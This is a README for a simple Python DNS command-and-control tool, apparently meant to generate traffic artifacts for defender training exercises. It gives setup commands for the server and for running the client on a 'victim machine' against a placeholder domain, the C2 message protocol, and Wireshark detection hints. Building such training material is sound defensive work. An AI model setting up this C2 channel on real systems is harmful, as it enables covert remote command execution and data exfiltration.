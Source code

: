 # ObviousDNSC2
Simple DNS C2 with Python client and server

## Purpose
A plain-as-possible DNS C2 framework with both client and server written in Python. This is designed as an artifact generation tool for training defenders.

## Setup
Configure a DNS record (like, with a legit registrar) with an NS record that points to a public asset you control. Example:
`odc2.SomeDomainIOwn.com`, pointing to `myVPC.SomeDomainIOwn.com`. Set the TTL to 1 second so that repeat messages don't get cached responses.

On that VPC, install and run the server, e.g., `sudo python3 odc2server.py odc2.SomeDomainIOwn.com`

On the victim machine, run `odc2client.py -d odc2.SomeDomainIOwn.com`

## Message Flow
`Client             Server`  
`CHK                NUL`  
`CHK                HDR<num CMD pkts>`  
`CON<last pkt num>  CMD<pkt num>`  
`HDR<num RES pkts>  ACK<num RES pkts>`  
`RES<pkt num>       ACK<pkt num>`  (counts down to 0)

`DIE` from server closes client

## Hints
- Nudge players early on to look for and understand Base64- and Base32-encoded text
- Wireshark allows wildcard matches in display filters like `dns.qry.name matches ".*\.toteslegit\.us"`
